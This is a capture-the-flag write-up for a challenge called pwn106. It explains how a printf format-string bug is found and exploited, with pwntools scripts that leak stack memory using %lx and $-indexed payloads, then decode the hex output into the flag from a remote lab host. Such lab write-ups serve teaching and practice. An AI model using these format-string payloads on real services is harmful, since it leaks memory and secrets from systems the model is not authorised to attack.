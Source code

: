 # Challenge Name: pwn106 

**Category:** pwn

# Approach

Let's try run the program

We cannot overflow the program . Let's try give %x as input
we received an address. This is printf vulnerabilies



Looking at the calling convention for 64bit linux

![alt text](../images/image-6.png)

![](../images/image-6-2.png)

We can see that the flag is being in the code. So lets try to reveal the flag by using %lx to search the position of the flag

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx.%lx"

p.recv()
p.sendline(payload)
print(p.recv())
```
We get the output
```
b'\nThanks 7ffc99b72230.0.0.ff.7fb54cfb4b30.5b585"8587b4d4854.6465725f67616c66.58585d6465746361.7d58.2e786c25286c252e786c25.2e786
```
We can see that the 5b5858587b4d4854.6465725f67616c66.58585d6465746361 is in the position of 6,7 ant 8th. So we change our script 

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = process()

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)

payload = "%6$lx.%7$lx.%8$lx"

p.recv()
p.sendline(payload)
print(p.recv())
```

# Last exploit
```
from pwn import *

context.binary = binary = ELF("./pwn106-user-1644300441063.pwn106-user")

p = remote("10.10.126.95",9006)
# p = process()

payload = "%6$lx.%7$lx.%8$lx.%9$lx.%10$lx.%11$lx"

p.recv()
p.recv()
p.sendline(payload)
output = p.recv().strip().split(b" ")[1].split(b".")

flag = ""
for word in output:
	flag += bytes.fromhex(word.decode("utf-8"))[::-1].decode("utf-8")

print(flag)
```

Here we change to payload to take till position 11th since the flag is long